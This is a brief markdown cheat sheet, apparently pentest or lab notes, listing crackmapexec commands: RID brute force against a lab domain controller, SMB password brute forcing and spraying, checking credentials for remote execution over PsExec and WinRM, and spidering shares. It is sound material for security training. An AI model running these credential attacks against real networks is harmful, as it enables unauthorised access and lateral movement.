 # crackmapexec commands
crackmapexec --help
crackmapexec smb --help

## RID brute force
```bash
crackmapexec smb LAB-DC -u 'guest' -p '' --rid-brute
```

## test password username arguments or files
## bruteforce SMB
check individual users and passwords and/or files the same way
```bash
crackmapexec smb $IP -u users -p passwords
```

## test valid user and password combinations 
```
--no-bruteforce           No spray when using file for username and password (user1 => password1, user2 => password2
--continue-on-success     continues authentication attempts even after successes
```

### for command execution permissions RCE
#### PsExec
```bash
crackmapexec smb $IP -u valid_users -p valid_passwords --no-bruteforce --continue-on-success
```

#### WinRM
```bash
crackmapexec winrm $IP -u valid_users -p valid_passwords --no-bruteforce --continue-on-success
```

## enumerate shares accessable by user as json report of files
outputs to `/tmp/cme_spider_plus/$IP.json`
```bash
crackmapexec smb $IP -u username -p password123 -M spider_plus
```
